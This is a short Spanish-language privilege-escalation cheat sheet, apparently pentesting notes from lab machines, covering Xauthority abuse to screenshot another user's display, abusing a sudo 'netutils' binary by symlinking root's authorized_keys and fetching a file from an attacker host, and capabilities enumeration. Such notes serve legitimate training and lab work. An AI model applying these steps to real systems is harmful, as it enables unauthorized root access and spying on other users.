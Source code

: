 # Escalada

# Escalada

## Abuso de Xauthority

### Listar sesiones activas

```
alex@squashed:/home/alex$ w
 15:06:33 up  8:45,  1 user,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
ross     tty7     :0               06:21    8:45m 46.16s  0.06s /usr/libexec/gnome-session-binary --systemd --session=gnome
```

### Verificar la conexión

```
xdpyinfo -display <DISPLAY>
```

### Capturar pantalla

```
xwd -root -screen -silent -display <DISPLAY> > screenshot.xwd
```

### Conexión con vncviewer

```
proxychains vncviewer -passwd secret localhost:5901
```

## Abuso de binarios sudoers

## Netutils

Creación de enlace simbólico de mi clave pública a las authorized_keys de otro usuario

```
ln -s -f /root/.ssh/authorized_keys id_rsa.pub
```

```
aaron@timing:~$ sudo /usr/bin/netutils
netutils v0.1
Select one option:
[0] FTP
[1] HTTP
[2] Quit
Input >> 1
Enter Url: http://10.10.16.2/cmd.jpg
Initializing download: http://10.10.16.2/cmd.jpg
File size: 33 bytes
Opening output file cmd.jpg.0
Server unsupported, starting from scratch with one connection.
Starting download

Downloaded 33 byte in 0 seconds. (0.04 KB/s)
```

## Capabilities

### Enumeración

```
getcap -r / 2>/dev/null
```